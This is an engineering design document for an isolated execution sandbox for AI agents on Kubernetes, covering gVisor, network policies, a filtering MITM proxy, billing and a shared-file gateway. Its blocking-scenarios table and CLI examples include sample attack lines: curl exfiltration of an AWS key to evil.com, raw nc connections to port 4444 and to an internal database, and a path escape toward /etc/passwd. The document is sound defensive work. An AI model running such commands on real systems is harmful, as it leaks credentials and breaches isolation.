# Agent Sandbox Design

## Overview

Provides an isolated execution environment (Sandbox) where nointern agents can perform **code execution, file manipulation, external API calls**, and similar work.

### Requirements

| Requirement | Description |
|----------|------|
| **Isolation** | Agent code cannot access host/internal services |
| **Network security** | Block private IPs + domain whitelist (per customer) |
| **Data exfiltration prevention** | Inspect all outbound traffic with MITM proxy |
| **Usage measurement** | Measure CPU/memory/time per Pod → customer billing |
| **Fast boot** | Sub-second allocation through Warm Pool |
| **AWS credits** | Handle all infrastructure cost with AWS credits |

### Technology selection background

#### E2B evaluation result

E2B (e2b.dev) is a Firecracker microVM-based sandbox platform and provides built-in network control (`allowOut`/`denyOut`) and usage measurement API. It technically satisfies the requirements, but **E2B Cloud cost is not billed through AWS**, so AWS credits cannot be used.

E2B BYOC (Bring Your Own Cloud) runs in our AWS account, but incurs separate license cost. Self-hosting is Nomad/Consul based and operationally complex.

#### AWS-native alternatives

| Option | Boot time | Network control | Cost |
|------|----------|-------------|------|
| Bedrock AgentCore | 300-800ms | basic internet block | AWS credits possible, 25 concurrent session limit |
| ECS Fargate | 20-60s | Security Group (IP only) | AWS credits possible |
| **K8s (EKS)** | **sub-second (Warm Pool)** | **NetworkPolicy + MITM** | **AWS credits possible** |

Use the existing EKS cluster and solve boot-time issue with the `kubernetes-sigs/agent-sandbox` WarmPool CRD.

## Architecture

### Overall flow



### Pod structure



## Network Security

### Network isolation strategy

Network control is handled at infrastructure layer. We do not configure iptables inside container with `NET_ADMIN` capability.

| Environment | Isolation method | Notes |
|------|----------|------|
| **Docker standalone** | `sandbox-restricted` bridge network | local development, low risk |
| **K8s (production)** | `NetworkPolicy` — egress deny RFC1918 | managed at infra layer |

**K8s NetworkPolicy example:**

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: sandbox-egress-deny-private
  namespace: nointern-sandbox
spec:
  podSelector:
    matchLabels:
      app: agent-runtime
  policyTypes:
  - Egress
  egress:
  - to:
    - ipBlock:
        cidr: 0.0.0.0/0
        except:
        - 10.0.0.0/8
        - 172.16.0.0/12
        - 192.168.0.0/16
        - 169.254.0.0/16
```

### MITM proxy sidecar

mitmproxy-based sidecar inspects all outbound traffic:

- **TLS decryption**: mount custom CA certificate into agent-runtime container trust store
- **Domain filtering**: read from env vars `ALLOWED_DOMAINS`, `DENIED_DOMAINS`
- **Transparent proxy**: force traffic through K8s NetworkPolicy, agent code cannot bypass
- **Audit log**: record all request URLs + response codes

#### Domain filtering (based on Toolkit config)

Injected as env vars at Pod creation:

```yaml
env:
- name: ALLOWED_DOMAINS
  value: "pypi.org,registry.npmjs.org"  # allow all if empty
- name: DENIED_DOMAINS
  value: "malware.com"                  # always blocked
```

When Engine Worker creates Sandbox Pod, it extracts domain settings from Shell Toolkit config and passes them as environment variables. If `ALLOWED_DOMAINS` is empty, allow all but block only `DENIED_DOMAINS`; if `ALLOWED_DOMAINS` exists, allow only that list while still blocking `DENIED_DOMAINS`.

#### Blocking scenarios

| Scenario | Handling |
|----------|------|
| `curl https://pypi.org/...` | domain allowed → pass |
| `curl https://evil.com/exfil?key=AKIA...` | domain mismatch → block |
| `nc 10.0.0.1 5432` (internal DB) | Private IP → NetworkPolicy DROP (K8s) / bridge isolation (Docker) |
| `nc 1.2.3.4 4444` (raw TCP) | redirected to proxy → no domain → block |
| `python -c "socket.connect(...)"` | same as above → block |

## Sandbox Lifecycle

### Allocation unit: per session

Sandbox is allocated per **conversation session (ConversationSession)**:



| Allocation unit | Reason for choice |
|----------|----------|
| ~~per tool call~~ | state lost between calls (`pip install` → gone in next call) |
| **per session** | **keep state within session (packages, files), isolate between sessions** |
| ~~per user~~ | confusing state sharing across channels, long retention cost |

#### Lifecycle rules

- **Allocation time**: when first code execution tool_call occurs within session (lazy allocation)
- **Retention**: keep Sandbox while session is active (preserve installed packages and created files)
- **Release**: delete Sandbox when session ends or idle timeout expires
- **Isolation**: full isolation between sessions (even same user gets separate Sandbox in different channel)

### Using kubernetes-sigs/agent-sandbox

Use CRD from [kubernetes-sigs/agent-sandbox](https://github.com/kubernetes-sigs/agent-sandbox):

#### SandboxWarmPool

Keep a pre-created Pod pool for sub-second allocation:

```yaml
apiVersion: sandbox.k8s.io/v1alpha1
kind: SandboxWarmPool
metadata:
  name: agent-sandbox-pool
  namespace: nointern-sandbox
spec:
  replicas: 1
  template:
    spec:
      runtimeClassName: gvisor
      containers:
      - name: agent-runtime
        image: nointern/agent-runtime:latest
        volumeMounts:
        - name: ca-cert
          mountPath: /usr/local/share/ca-certificates/mitmproxy.crt
          subPath: ca.crt
      - name: mitmproxy
        image: nointern/mitmproxy-sidecar:latest
        ports:
        - containerPort: 8080
        env:
        - name: ALLOWED_DOMAINS
          value: ""  # empty at Warm Pool phase, updated on allocation
        - name: DENIED_DOMAINS
          value: ""
      volumes:
      - name: ca-cert
        secret:
          secretName: mitmproxy-ca-cert
```

#### Isolation level: gVisor

Strengthen container isolation with `runtimeClassName: gvisor`:

- gVisor kernel (Sentry) intercepts agent code syscalls
- no direct access to host kernel
- near-VM isolation security with container overhead

### Lifecycle flow



## Usage Measurement

### Metric collection

Collect per-Pod resource usage with Prometheus:

| Metric | Source | Use |
|--------|------|------|
| CPU usage | `container_cpu_usage_seconds_total` | CPU-time based billing |
| Memory usage | `container_memory_working_set_bytes` | memory based billing |
| Execution time | Pod start/end timestamps | time based billing |

### Billing integration

Engine Worker records Sandbox session metadata:

```
sandbox_session {
  id, workspace_id, agent_id,
  started_at, ended_at,
  cpu_millicores, memory_mib,
  domains_allowed
}
```

Aggregate this data by Workspace and bill usage.

## Sandbox Abstraction Interface

Engine Worker does not know Sandbox implementation directly; it accesses through abstract interface. Depending on config, it switches between local Docker or remote K8s Sandbox.

### Interface definition

```python
class Sandbox(ABC):
    """Sandbox abstract interface. All implementations follow this interface."""

    @abstractmethod
    async def exec(self, command: str, *, timeout: int = 30) -> ExecResult:
        """Execute command"""
        ...

    @abstractmethod
    async def write_file(self, path: str, content: bytes) -> None:
        """Write file"""
        ...

    @abstractmethod
    async def read_file(self, path: str) -> bytes:
        """Read file"""
        ...

    @abstractmethod
    async def close(self) -> None:
        """Clean up Sandbox and release resources"""
        ...


@dataclass
class ExecResult:
    stdout: str
    stderr: str
    exit_code: int
```

### Implementations



| Implementation | Use | Isolation | Network security |
|--------|------|------|-------------|
| `DockerSandbox` | local development, standalone | Docker container | sandbox-restricted bridge network isolation |
| `K8sSandbox` | production, staging | gVisor + K8s Pod | MITM proxy + NetworkPolicy |

### Config

```python
# config.py
class SandboxConfig:
    backend: Literal["docker", "k8s"] = "docker"  # local default

    # Docker backend
    docker_image: str = "nointern/agent-runtime:latest"
    docker_network: str = "sandbox-restricted"

    # K8s backend
    k8s_namespace: str = "nointern-sandbox"
    k8s_warm_pool: str = "agent-sandbox-pool"
```

```python
# factory.py
def create_sandbox(
    config: SandboxConfig,
    allowed_domains: list[str],
    denied_domains: list[str],
) -> Sandbox:
    """Create appropriate Sandbox implementation based on config."""
    match config.backend:
        case "docker":
            return DockerSandbox(
                image=config.docker_image,
                network=config.docker_network,
                allowed_domains=allowed_domains,
                denied_domains=denied_domains,
            )
        case "k8s":
            return K8sSandbox(
                namespace=config.k8s_namespace,
                warm_pool=config.k8s_warm_pool,
                allowed_domains=allowed_domains,
                denied_domains=denied_domains,
            )
```

Use Docker container with `SANDBOX_BACKEND=docker` in local development and K8s WarmPool with `SANDBOX_BACKEND=k8s` in deployment environments. Engine Worker code runs the same without changes.

## Engine Worker Integration

When code execution is needed in existing Engine Worker's ReAct Loop, it allocates Sandbox:



### Sandbox events

Sandbox-related events emitted by Engine Worker through Redis Pub/Sub:

| Event | Timing | Client display |
|--------|------|---------------|
| `sandbox_initializing` | Pod allocation starts from Warm Pool | "Running sandbox..." |
| `sandbox_ready` | Pod allocation complete, executable | (end display) |
| `sandbox_error` | allocation failure or execution error | show error message |

Code execution start/complete is covered by existing ReAct events (`tool_call_start`, `tool_call_end`), so no separate event is defined. Sandbox events use the same Redis Pub/Sub channel and include only lifecycle-specific events such as Sandbox allocation/release.

## Infra: Bottlerocket + Karpenter

Manage Sandbox Pod dedicated nodes with Bottlerocket + Karpenter.

### Bottlerocket

AWS-only container OS with properties suitable for Sandbox nodes:

- **gVisor default support**: can use RuntimeClass without separate installation
- **Minimal OS**: includes only what is needed to run containers, minimizes attack surface
- **Automatic updates**: OS updates are automatically applied based on A/B partitions
- **Immutable**: no SSH, no package manager

### Karpenter

Autoscale nodes based on Sandbox Pod demand:

```yaml
apiVersion: karpenter.k8s.aws/v1
kind: EC2NodeClass
metadata:
  name: sandbox-nodes
spec:
  amiSelectorTerms:
  - alias: bottlerocket@latest
  subnetSelectorTerms:
  - tags:
      karpenter.sh/discovery: nointern-cluster
  securityGroupSelectorTerms:
  - tags:
      karpenter.sh/discovery: nointern-cluster
  blockDeviceMappings:
  - deviceName: /dev/xvdb
    ebs:
      volumeSize: 50Gi
      volumeType: gp3

---
apiVersion: karpenter.sh/v1
kind: NodePool
metadata:
  name: sandbox-pool
spec:
  template:
    spec:
      nodeClassRef:
        group: karpenter.k8s.aws
        kind: EC2NodeClass
        name: sandbox-nodes
      taints:
      - key: sandbox
        value: "true"
        effect: NoSchedule
      requirements:
      - key: kubernetes.io/arch
        operator: In
        values: ["amd64"]
      - key: karpenter.sh/capacity-type
        operator: In
        values: ["spot"]  # Sandbox is stateless, optimize cost with Spot
  disruption:
    consolidationPolicy: WhenEmpty
    consolidateAfter: 60s
  limits:
    cpu: "100"
    memory: 200Gi
```

### Scaling behavior



Add `tolerations` to Sandbox Pod so it schedules only on dedicated nodes:

```yaml
# Add to SandboxWarmPool template
tolerations:
- key: sandbox
  value: "true"
  effect: NoSchedule
nodeSelector:
  karpenter.sh/nodepool: sandbox-pool
```

## Sandbox File Sharing — sharedfs

Files generated by agent in Sandbox (CSV, charts, reports, etc.) must be shared externally (Web UI, Slack). Agent handles files in shared storage using `shared:///` URI scheme, and inside Sandbox it can access them through `sharedfs` CLI. Supports 4 scopes (platform/agent/user/session).

### Design principles

| Principle | Description |
|------|------|
| **URI separation** | clearly distinguish shared storage and local filesystem with `shared:///` URI |
| **Chroot pattern** | platform fixes session root (`{prefix}/{workspace_id}/{session_id}/`). Agent is free below it; only `..` escape is blocked |
| **Storage abstraction** | File Gateway abstracts backend — K8s: S3, Docker: shared volume |
| **Credential isolation** | no storage credentials in agent-runtime container |
| **Unified tool** | no separate tool_call. All file operations happen through `sharedfs` CLI inside `execute_code` |

### URI scheme: `shared:///`

Use `shared:///` URI scheme to clearly distinguish local filesystem from shared storage. File sharing inside Sandbox mainly uses `shared:///session/` scope:

| Path | Location | Access method |
|------|------|----------|
| `/tmp/output.csv` | local filesystem | normal commands such as `cat`, `cp` |
| `shared:///session/reports/output.csv` | session storage | only `sharedfs` CLI |

State the following rule in agent prompt:

> Files with `shared:///` URI are in shared storage. Inside Sandbox, read/write/delete must use `sharedfs` CLI. They cannot be accessed with normal filesystem commands (`cat`, `cp`, etc.). Outside Sandbox (engine level), use `read`, `write`, `edit`, `glob`, `grep`, `delete` file tools.

### Path policy: Chroot pattern

```
session root (fixed by platform, cannot be changed by agent)
  └── {prefix}/{workspace_id}/{session_id}/
        ├── reports/monthly/out.csv    ← agent free
        ├── data/cleaned.json          ← agent free
        └── chart.png                  ← agent free
```

- **Session root**: platform determines from `workspace_id` and `session_id`. Agent does not know this path.
- **Subpath**: agent may freely create directory structure.
- **Escape blocked**: access outside session root through `..`, absolute path, etc. is rejected.

When agent requests `shared:///session/reports/monthly/out.csv`, File Gateway internally maps it to `{prefix}/{workspace_id}/{session_id}/reports/monthly/out.csv`.

### sharedfs CLI

CLI pre-installed in agent-runtime image. 1:1 correspondence with Linux commands:

| Command | Corresponding Linux command | Use |
|------|----------------|------|
| `sharedfs ls` | `ls` | list files in folder |
| `sharedfs stat` | `stat` | file metadata (size, modified time, etc.) |
| `sharedfs cat` | `cat` | print full file (pipeable) |
| `sharedfs cp` | `cp` | copy — direction inferred from URI location |
| `sharedfs rm` | `rm` | delete file/folder |
| `sharedfs tee` | `tee` | write file from stdin |

- No `mkdir` command — parent directories are auto-created on `cp`, `tee` (auto-mkdir)
- Limit stdin/stdout character count at Shell tool (`execute_code`) level to prevent token explosion on large file `cat`

#### Usage examples

```bash
# file list
sharedfs ls shared:///session/reports/

# file info
sharedfs stat shared:///session/data/result.csv

# read file + pipe
sharedfs cat shared:///session/data/result.csv | head -20
sharedfs cat shared:///session/data/result.csv | grep "error"
sharedfs cat shared:///session/data/result.csv | wc -l

# upload (local → session)
sharedfs cp ./output.csv shared:///session/reports/output.csv

# download (session → local)
sharedfs cp shared:///session/reports/output.csv ./local-copy.csv

# copy within session
sharedfs cp shared:///session/data/v1.csv shared:///session/data/v2.csv

# write text file from stdin
echo "# Analysis result" | sharedfs tee shared:///session/reports/summary.md

# write with heredoc
sharedfs tee shared:///session/reports/detail.md <<'EOF'
# Detailed analysis
item1: 100
item2: 200
EOF

# use in pipeline
python generate_report.py && sharedfs cp ./report.pdf shared:///session/reports/report.pdf

# delete
sharedfs rm shared:///session/reports/old.csv

# path escape attempt → blocked
sharedfs cp ./data.csv shared:///session/../../etc/passwd
# → Error: path escapes session root
```

### Architecture: File Gateway Sidecar

Add **File Gateway** sidecar to Sandbox Pod. `sharedfs` CLI talks to File Gateway on localhost, and File Gateway handles actual storage backend.



### Storage abstraction

File Gateway switches storage backend based on config:



| Environment | Backend | Config |
|------|--------|------|
| K8s (production/staging) | S3 | `STORAGE_BACKEND=s3`, credentials through IRSA |
| Docker (local development) | shared volume | `STORAGE_BACKEND=local`, mount path |

Code and CLI behavior are identical regardless of backend.

### Pod structure change

Add File Gateway sidecar to existing 2-container Pod:

